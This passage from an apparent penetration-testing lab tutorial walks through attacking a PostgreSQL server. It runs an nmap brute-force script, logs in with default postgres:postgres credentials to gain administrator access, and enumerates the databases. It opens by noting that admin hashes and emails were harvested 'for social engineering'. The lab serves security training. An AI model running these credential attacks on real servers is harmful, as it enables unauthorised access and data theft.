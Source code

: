 ```bash
# ✅ Administrative usernames and password hashes obtained
# ✅ Email addresses for potential social engineering
# ✅ Role-based access information discovered
```

### **Lab Scenario 2: PostgreSQL Advanced Enumeration**

#### **Phase 1: Service Detection and Version Analysis**
```bash
# Step 1: PostgreSQL service discovery
nmap -p 5432 -sV --script pgsql-brute 192.168.1.101

# Service detection results:
PORT     STATE SERVICE  VERSION
5432/tcp open  postgresql PostgreSQL DB 12.8 (Ubuntu 12.8-0ubuntu0.20.04.1)
| pgsql-brute:
|   Accounts: No valid accounts found
|_  Statistics: Performed 85 guesses in 6 seconds, average tps: 14.2

# Step 2: Manual authentication testing with common credentials
psql -h 192.168.1.101 -U postgres

# Authentication attempt:
Password for user postgres: [Try: postgres]
psql (14.5, server 12.8)
WARNING: psql major version 14, server major version 12.
         Some psql features might not work.
Type "help" for help.

postgres=#

# 🎉 Successful Authentication:
# ✅ Default postgres:postgres credentials accepted
# ✅ Database administrator access achieved
# ✅ Version mismatch noted (potential compatibility issues)
```

#### **Phase 2: Database and Schema Enumeration**
```bash
# Step 3: System information gathering
postgres=# SELECT version();
                                                         version
--------------------------------------------------------------------------------------------------------------------------
 PostgreSQL 12.8 (Ubuntu 12.8-0ubuntu0.20.04.1) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 9.3.0-17ubuntu1~20.04) 9.3.0, 64-bit

postgres=# SELECT current_user, session_user;
 current_user | session_user
--------------+--------------
 postgres     | postgres

# Step 4: Database discovery and analysis
postgres=# \l
                              List of databases
    Name    |  Owner   | Encoding |   Collate   |    Ctype    |   Access privileges
------------+----------+----------+-------------+-------------+-----------------------
 companydb  | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 |
 postgres   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 |
 template0  | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
            |          |          |             |             | postgres=CTc/postgres
 template1  | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
            |          |          |             |             | postgres=CTc/postgres
```